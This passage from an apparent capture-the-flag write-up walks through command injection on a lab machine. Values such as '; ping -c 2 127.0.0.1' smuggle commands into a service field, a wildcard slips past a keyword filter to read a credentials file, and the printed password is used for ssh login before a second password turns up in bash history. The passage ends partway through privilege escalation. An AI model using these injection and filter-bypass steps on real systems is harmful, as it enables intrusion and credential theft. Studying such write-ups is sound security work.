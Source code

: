 
## PART 4 : GENERATE USER SHELL

- Take the file called __`credentials`__ from the __`home directory`__:
  ```console
  $ echo /home/*; ping -c 2 127.0.0.1

    /home/loki
    Command was executed succesfully!

  $ echo /home/loki/*; ping -c 2 127.0.0.1
 
    /home/loki/credentials /home/loki/hosted /home/loki/user.txt
    Command was executed succesfully!

  $ cat /home/loki/credentials; ping -c 2 127.0.0.1

    Command is not allowed.

  $ cat /home/loki/cred*; ping -c 2 127.0.0.1

    pass: lokiisthebestnorsegod
    Command was executed succesfully!

  ```
  __NOTE(S)__:
  - The word __`credentials`__ is being filtered out by the service.
  - It was bypassed by using a __wildcard__.

- Login via __`ssh`__:
  ```console
  $ ssh -l loki 10.10.10.92
    The authenticity of host '10.10.10.92 (10.10.10.92)' can't be established.
    ECDSA key fingerprint is SHA256:deaxXTK7ORthfGcKdblPRUmgNrU20oclqMbwVj3hzYI.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.92' (ECDSA) to the list of known hosts.
  $ loki@10.10.10.92's password: lokiisthebestnorsegod
  
  $ cat user.txt

    bf58........................0060

  ```

---

## PART 5.1 : PRIVILEGE ESCALATION (loki -> root)

- Check for interesting files in __`loki`__'s home directory:
  ```console
  $ ls -lah ~
    
    -rw------- 1 loki loki  192 Jul 14  2018 .bash_history
    ...omitted...
    -rw-rw-r-- 1 loki loki   28 May 17  2018 credentials
    ...omitted...
    -rw-r--r-- 1 loki loki    0 May 14  2018 .sudo_as_admin_successful
    -r-------- 1 loki loki   33 May 17  2018 user.txt
    ...omitted...

  $ cat .bash_history
   
    python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
    ...omitted...
    sudo su
  ```